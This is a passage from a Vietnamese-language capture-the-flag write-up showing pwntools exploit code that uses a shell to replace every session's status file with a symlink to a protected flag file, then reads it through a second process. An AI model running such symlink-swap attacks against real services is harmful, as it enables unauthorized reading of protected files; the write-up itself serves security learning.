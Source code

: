 A ha, kết quả là không bị lỗi! Vậy nếu ta vẫn còn cái tiến trình q (không phải tiến trình tạo shell) thì ta cho nó get status lại lần nữa để đọc flag thôi. Vì mình thấy ở đây có nhiều session nên ta có thể dùng đoạn code sau để thay đổi file status của toàn bộ session:

```python
sl(p, b'ls /tmp/session')
while True:
    session_name = p.recvline(timeout=1)[:-1]
    if not session_name:
        break
    sl(p, b'rm /tmp/session/' + session_name + b'/status')
    sl(p, b'ln -s /home/authservice/flag /tmp/session/' + session_name + b'/status')
```

Sau khi dùng tiến trình p (tiến trình tạo shell) thay đổi file status, ta chỉ việc get status ở tiến trình q:

```python
sla(q, b'> ', b'4')
print(q.recvuntil(b'Status: '))
print(q.recvline())
```

Kết quả là ta lấy được flag:

![](images/get-flag.png)

Chuỗi `something here~~~` chính là dữ liệu trong file flag local của mình.

Full script: [exploit.py](exploit.py)